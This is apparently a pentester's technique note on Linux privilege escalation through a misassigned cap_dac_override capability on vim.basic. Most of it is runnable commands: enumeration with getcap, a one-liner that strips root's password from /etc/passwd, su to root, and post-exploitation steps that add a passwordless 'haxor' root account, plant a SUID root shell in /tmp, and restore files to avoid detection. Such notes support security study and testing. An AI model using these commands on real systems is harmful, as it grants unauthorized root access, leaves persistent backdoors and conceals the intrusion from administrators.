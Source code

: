 ### 1. Technique Name:

Linux Capabilities – Exploiting `cap_dac_override` for Privilege Escalation
### 2. Summary:

Linux capabilities break down the all-powerful root privileges into discrete units, allowing fine-grained control over what binaries can do. While designed for improved security, misconfigured or overly permissive capabilities can lead to privilege escalation.

One of the most dangerous capabilities is `cap_dac_override`, which allows a binary to bypass standard file read/write/execute permission checks. If assigned to an editor like `vim.basic`, even an unprivileged user can edit protected files such as `/etc/passwd` and remove the root password — enabling a root shell via `su` with no password prompt.
### 3. Conditions / Requirements:

- Binary (e.g., `/usr/bin/vim.basic`) has `cap_dac_override` set    
- Writable access to the binary (or already setcap by root)
- Ability to execute that binary (no sudo needed)
- Target system uses `/etc/passwd` authentication (not fully shadowed)
### 4. Enumeration Steps:
#### A. Enumerate binaries with capabilities:

```bash
find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \; 2>/dev/null
```
#### B. Look for dangerous capabilities like:

- `cap_dac_override`    
- `cap_sys_admin`
- `cap_setuid`, `cap_setgid`
#### C. Inspect specific binary:

```bash
getcap /usr/bin/vim.basic
# Output:
# /usr/bin/vim.basic cap_dac_override=eip
```
#### D. Confirm sensitive file access:

```bash
cat /etc/passwd | head -n 1
# Should return: root:x:0:0:root:/root:/bin/bash
```
### 5. Exploitation Steps:
#### A. Launch vim to edit `/etc/passwd` directly:

```bash
/usr/bin/vim.basic /etc/passwd
# Remove the password field for root (remove the 'x')
```
#### OR B. Perform the change non-interactively:

```bash
echo -e ':%s/^root:[^:]*:/root::/\nwq!' | /usr/bin/vim.basic -es /etc/passwd
```
#### C. Confirm password field has been removed:

```bash
cat /etc/passwd | head -n 1
# Output: root::0:0:root:/root:/bin/bash
```
#### D. Gain root access via `su`:

```bash
su -
# (No password prompt)
```
### 6. Post-Exploitation Tips:

- Restore `/etc/passwd` to avoid detection    
- Add your own root-level user:

```bash
echo 'haxor::0:0:root:/root:/bin/bash' >> /etc/passwd
```

- Drop a SUID root shell:

```bash
cp /bin/bash /tmp/rootsh
chmod +s /tmp/rootsh
```

- Clear capabilities if possible (requires root):  

```bash
setcap -r /usr/bin/vim.basic
```
### 7. Example / Notes:

- Example of dangerous capability discovered:    

```bash
/usr/bin/vim.basic cap_dac_override=eip
```

- Actual exploit to backdoor root:

```bash
echo -e ':%s/^root:[^:]*:/root::/\nwq!' | /usr/bin/vim.basic -es /etc/passwd
su -
```
# Tags
> #Linux-Post-Exploitation #Linux-Privesc #Capabilities